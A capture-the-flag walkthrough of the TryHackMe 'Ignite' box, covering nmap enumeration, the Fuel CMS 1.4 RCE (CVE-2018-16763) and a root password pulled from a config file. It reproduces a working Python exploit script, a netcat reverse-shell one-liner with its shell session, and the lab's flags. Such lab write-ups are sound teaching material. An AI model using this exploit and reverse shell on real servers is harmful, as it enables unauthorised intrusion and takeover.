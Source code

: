# Ignite

## Description

A new start-up has a few issues with their web server.

Root the box! Designed and created by DarkStar7471, built by Paradox.

## Initial Scan

Let's start with an Nmap scan. The scan reveals one open port:
* 80 http

~~~
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
~~~

## Web

Let's start enumerating our only port which is the web service. The main page is the default page for `Fuel CMS` and the version is `1.4`:

<p align="center"><img src="./files/version.png"></p>

I also found a login page from `/robots.txt` under the name of `/fuel` and the credentials are `admin:admin`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Ignite]
└─$ curl -s "http://$IP/robots.txt"                                                      
User-agent: *
Disallow: /fuel/
~~~

## Exploit

I checked if the version is outdated or not. I searched for it and found `CVE-2018-16763`. This version is vulnerable to RCE (Remote Code Execution) and I found an exploit for it [here](https://www.exploit-db.com/exploits/47138).

Here is the exploit:
~~~py
import requests
import urllib

url = "http://127.0.0.1:80"

def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print (r.text[0:dup])
~~~

I had to modify the code a bit, because there is no proxy in our case. Don't forget to change the url and btw, you have to execute commands like this: `"<command>"`.


## Reverse Shell

I tested the exploit and it works. Let's execute a bash reverse shell. First start a listener and then execute the following:

~~~
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4444 >/tmp/f"
~~~

Now we have a shell and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Ignite]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.134.57] 44720
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/html$
~~~

## User flag

I found the user flag in `/home/www-data`:

~~~
www-data@ubuntu:/var/www/html$ cd /home/www-data
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
~~~

User.txt: `6470e394cbf6dab6a91682cc8585059b`

## Going root

Now we need to gain root access in order to obtain the root flag. I started manually enumerating the machine and found this file: `/var/www/html/fuel/application/config/database.php`. After checking its content, I found the root's password in the last few lines:

~~~php
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',      <--------------
	'password' => 'mememe',    <--------------
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
~~~

Now we can simply switch to root:

~~~
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now we can easily navigate to `/root` and read the root flag:

~~~
root@ubuntu:/var/www/html/fuel/application/config# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
b9bbcb33e11b80be759c4e844862482d 
~~~
Root.txt: `b9bbcb33e11b80be759c4e844862482d`

# D0N3! ; )

Thanks to the creators!

Hope you had fun and learned something!

Have a g00d one! : )